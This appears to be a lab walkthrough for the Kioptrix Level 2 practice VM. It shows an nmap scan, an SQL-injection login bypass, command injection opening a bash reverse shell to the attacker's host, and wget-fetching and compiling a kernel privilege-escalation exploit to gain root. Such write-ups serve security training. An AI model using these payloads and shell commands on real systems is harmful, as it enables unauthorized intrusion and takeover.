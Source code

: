 # Kioptrix Level 2
Insert `ethernet0.connectionType = "nat"` to .vmx, and change all `bridged` in the .vmx file of the VM before use VMware to open it.
![](https://i.imgur.com/NWG2WuI.png)
Host is `192.168.232.145`
![](https://i.imgur.com/YcIxsUG.png)
Victim is `192.168.232.147`
`nmap -sS -sV -A -p- -oN NmapKioptrixLv2.txt 192.168.232.147`
![](https://i.imgur.com/QrFQ8Xd.png)
We got http service
![](https://i.imgur.com/bufhsOg.png)
Let's give it with simple SQLi
```php
stmt = "select * from user where username ='".$Name."' and password='".$Passwd."';"
```
account: `admin' or '1'='1`
password: `{WhateverJustTypeSomething}`
![](https://i.imgur.com/zCnoi9n.png)
Then you will see a web shell.
![](https://i.imgur.com/e4bctbZ.png)
Usually we need to find the way to command inject and locate where we are then create return shell.
First we try `;` semicolon
![](https://i.imgur.com/3D7e3YO.png)
![](https://i.imgur.com/OvTTInj.png)
Open a listener before shell return.
`nc -lvp 8888`
![](https://i.imgur.com/ocunQI6.png)
`;bash -i >&/dev/tcp/192.168.232.145/8888 0>&1`
![](https://i.imgur.com/s8ZxtP9.png)
Find the PoE [Linux Kernel 2.4/2.6 'sock_sendpage()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9479). Copy as file and launch a simple server.
`python -m SimpleHTTPServer 80`
![](https://i.imgur.com/dBQOCZh.png)
Then use return shell to get the C file and compile it.
`wget http://192.168.232.145/LinuxKernelPoC.c`
![](https://i.imgur.com/mErmrVt.png)
Permission Denied because we are in Web protect path, switch to else where.
![](https://i.imgur.com/8lqHItb.png)
After compiling, change mode and execute it.
Now we got the root.

